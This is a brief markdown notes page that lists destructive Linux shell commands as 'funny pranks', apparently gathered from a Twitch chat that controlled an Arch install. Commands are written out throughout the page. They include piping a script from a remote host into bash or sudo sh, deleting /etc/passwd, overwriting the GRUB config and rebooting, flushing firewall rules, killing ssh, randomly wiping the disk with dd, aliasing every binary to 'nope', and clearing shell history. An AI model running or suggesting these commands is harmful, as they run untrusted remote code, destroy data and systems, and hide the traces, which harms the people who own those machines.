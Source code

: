#### get an .sh file that would do everything for us if we just curl it from the web,

```bash
curl aaa.xyz/a.sh | bash
```

- 7:08inluck_nl: write a bash script
- 7:08inluck_nl: host it
- 7:08inluck_nl: get networking up
- 7:08inluck_nl: wget and run

write a script we can `wget | sudo sh`

- Rm -f /etc/passwd(this kicks out some really neat errors)

Funny prank

```bash
for i in ls /usr/bin
do
alias $i='echo nope'
done
```

bash_history

`. .bash_history` or add `history - c` at the end..

- `cat /dev/urandom > /dev/mouse`
- `pkill ssh`
- `echo "oh shit" > /boot/grub2/grub.cfg ; reboot`
- `cat /proc/kcore > /dev/dsp`
- `cat /dev/sda1 > /dev/tty0`
- `Iptables -F`
- `sudo startx &`
- `[ $[ $RANDOM % 2 ] == 0 ] && dd if=/dev/urandom of=/dev/sda || echo 'Meow'`

### Notes

These were inspired from TwitchInstallArchLinux chat.

### Links

- [List of dangerous shell commands](https://docs.google.com/forms/d/e/1FAIpQLSfTwnopvY7UYcSf-1QOkHTFUkow4mPeuses7ibDRAxPs7BptQ/viewform)
- [comments on this nixCraft facebook msg](https://web.facebook.com/plugins/post.php?href=https%3A%2F%2Fweb.facebook.com%2Fnixcraft%2Fposts%2F1776674342345936)
- [nixCraft: My 10 UNIX Command Line Mistakes](https://www.cyberciti.biz/tips/my-10-unix-command-line-mistakes.html?utm_source=facebook)
